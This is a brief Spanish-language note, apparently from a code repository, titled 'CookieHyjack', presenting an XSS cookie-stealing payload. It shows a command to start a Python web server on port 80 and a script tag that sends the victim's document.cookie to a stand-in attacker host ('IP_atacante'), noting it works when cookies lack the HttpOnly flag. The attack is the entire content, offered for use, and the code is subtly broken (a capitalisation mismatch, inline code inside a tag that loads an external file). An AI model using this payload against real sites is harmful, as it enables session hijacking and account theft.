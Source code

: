 # CookieHyjack

Este script básico funciona siempre y cuando la cookie del usuario victima tenga en false la propiedad HttpOnly&#x20;

```
python3 -m http.server 80
```

```
<script src="IP_atacante/fichero.js">      
    var request = new XMLHttpRequest();
    Request.open('GET', 'http://IP_atacante/?cookie=' + document.cookie);
    request.send();
</script>
```
